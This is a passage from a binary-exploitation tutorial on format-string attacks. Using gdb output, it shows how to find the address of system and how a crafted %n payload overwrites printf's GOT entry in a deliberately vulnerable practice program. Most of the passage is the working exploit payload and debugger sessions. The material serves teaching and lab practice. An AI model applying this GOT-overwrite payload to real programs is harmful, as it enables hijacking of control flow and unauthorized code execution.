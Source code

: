 ### Determine the address of system or execve.

In gdb:
```bash
gef➤  print system
$1 = {<text variable, no debug info>} 0xf7e02830 <system>
```

So, this is the address which you will write in GOT.

### Specify the address within GOT table

Let's try to exploit it without overwriting puts. I'll not specify how to determine the address and direct parameter number, you can do it yourself.
```bash
gef➤  b *main + 138
Breakpoint 1 at 0x8049260
gef➤  r aaaa
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/got-overwrite aaaa
aaaaaaaa

Breakpoint 1, 0x08049260 in main ()
gef➤  got

GOT protection: No RelRO | GOT functions: 4

[0x804b278] printf@GLIBC_2.0  →  0xf7e11340
[0x804b27c] gets@GLIBC_2.0  →  0xf7e2e1b0
[0x804b280] __libc_start_main@GLIBC_2.0  →  0xf7ddbdf0
[0x804b284] strncpy@GLIBC_2.0  →  0xf7e58690
gef➤  r $(python -c 'print "\x78\xb2\x04\x08" + "\x7a\xb2\x04\x08" + "%10280u" + "%54$n" + "%53168u" + "%55$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/got-overwrite $(python -c 'print "\x78\xb2\x04\x08" + "\x7a\xb2\x04\x08" + "%10280u" + "%54$n" + "%53168u" + "%55$n"')
xz

Program received signal SIGSEGV, Segmentation fault.
0x08040000 in ?? ()
gef➤  got

GOT protection: No RelRO | GOT functions: 4

[0x804b278] printf@GLIBC_2.0  →  0xf7e02830
[0x804b27c] gets@GLIBC_2.0  →  0x8040000
[0x804b280] __libc_start_main@GLIBC_2.0  →  0xf7ddbdf0
[0x804b284] strncpy@GLIBC_2.0  →  0xf7e58690
```
Here, you see that the printf now has another address, but `puts` has too. That's why you need the next overwrite.

### Overwrite it with the address of the system

